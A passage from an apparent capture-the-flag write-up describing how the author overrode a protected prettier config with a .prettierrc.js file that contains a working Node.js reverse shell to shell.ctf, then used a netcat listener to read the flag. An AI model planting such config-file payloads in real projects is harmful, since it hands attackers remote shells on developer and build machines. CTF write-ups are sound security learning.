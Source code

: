 ```ini
trailingComma = "es5"
tabWidth = 4
semi = false
singleQuote = true
```

The configuration file was also protected. But I read a little about [prettier configuration options](https://prettier.io/docs/en/configuration.html). It supports multiple options for configuration files. And the toml file was the last one in order of precedence. This meant I could create another configuration file to replace the one provided in the repository.

I create a `.prettierrc.js` configuration that had JS code to open a reverse shell on the machine that the CTF provided for these kinds of things.

```js
module.exports = {
    trailingComma: "es5",
    tabWidth: 4,
    semi: false,
    singleQuote: true,
  };
  (function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(4444, "shell.ctf", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```

My netcat listener got the shell.

```bash
root@ctn-shell:~/www# nc -6 -klvnp 4444
Listening on :: 4444


Connection received on 9000:bbb:bbb:bb1:216:3eff:fee2:28e2 43648
ls /
bin
boot
dev
etc
flag_here_06e18b8aafa4f0fd93f9d00d024b974e
git-dir
home
lib
lib32
lib64
...

cat /flag_here_06e18b8aafa4f0fd93f9d00d024b974e
FLAG-f95265a349902769fc2e1843af2ddca5
```

## 2 - Source Code Analysis
